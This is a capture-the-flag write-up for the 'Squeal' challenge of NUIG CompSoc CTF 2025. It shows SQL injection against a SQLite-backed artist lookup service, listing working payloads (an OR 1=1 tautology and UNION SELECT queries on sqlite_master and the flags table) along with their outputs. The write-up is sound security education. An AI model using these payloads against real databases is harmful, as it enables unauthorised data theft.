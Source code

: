 ```yaml
---
layout: post
title: "Squeal Writeup"
subtitle: "Medium Binary Exploitation Chall for NUIG CompSoc CTF 2025"
description: "Medium Binary Exploitation Chall for NUIG CompSoc CTF 2025"
author: "jxkxl"
header-style: text
tags:
  - CTF
  - Writeup
  - Pwn
  - Misc
  - NUIGCompSocCTF2025
---
```


Our server runs a light database that allows users to enter an artist's name to check if they are in our Billboard Top 10 table. I wonder if there's anything else interesting in that database...

## Tools Used

netcat

## Approach

### Initial Analysis

I first connected to the service via netcat, and was greeted with the following:

```
nc 140.203.18.3 10020
This script accepts the name of an artist and checks if they are currently in the Billboard Top 10 table in our database, e.g. Sabrina Carpenter
Enter an artist's name:
```

My first impression was this was obviously a database of some sort, and I was going to have to exploit something related to this fact. My first guess was that this could be some kind of SQL database, as the title of the challenge was "Squeal" and the description mentions a "light database". My guess is that this is a some kind of SQLite service running off this port. To see if this is true, and if it is exploitable, I did the ol' reliable:

```sql
' OR 1=1 --
```

and got this output:

```sql
1|Die With A Smile|Lady Gaga, Bruno Mars
2|BIRDS OF A FEATHER|Billie Eilish
3|Taste|Sabrina Carpenter
4|Who|Jimin
5|Espresso|Sabrina Carpenter
6|The Emptiness Machine|Linkin Park
7|Please Please Please|Sabrina Carpenter
8|Si Antes Te Hubiera Conocido|KAROL G
9|Good Luck, Babe!|Chappell Roan
10|Beautiful Things|Benson Boone
```

Nice! This showed that the database was in fact some kind of SQLite database, and vulnerable to SQL injection.

### Enumeration

Now that I knew SQL injection was possible, I wanted to see if there were more tables in the database, so I ran the following payload:

```sql
' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table'; --
```

and it came back with the following:

```sql
1|flags|3
1|singles|3
```

I found that there was another table called `flags`, which was cool. Now I know which table I need to start looking at.

### Finding the Flag

Now that I knew there was a table called `flags`, I looked into `sqlite_master` to see how the table was structured. This would help me navigate to the correct column to extract. So I crafted the following query to call `sqlite_master` and use it to inspect the schema table:

```sql
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table' AND name='flags'; --
```

This returned:

```sql
CREATE TABLE flags (
    secret VARCHAR(255) NOT NULL,
    PRIMARY KEY (secret)
)
```

So now I knew the column I needed to get the flag was going to be  in `secret`.

### Extracting the Flag

With that knowledge, I queried the final paylaod to the server that i would need:

```sql
' UNION SELECT 1, secret, 3 FROM flags; --
```

and got:

```sql
1|CompSoc{v4cc1nati0n}|3
```

Coolio.

## Solution

- **Flag:** `CompSoc{v4cc1nati0n}`

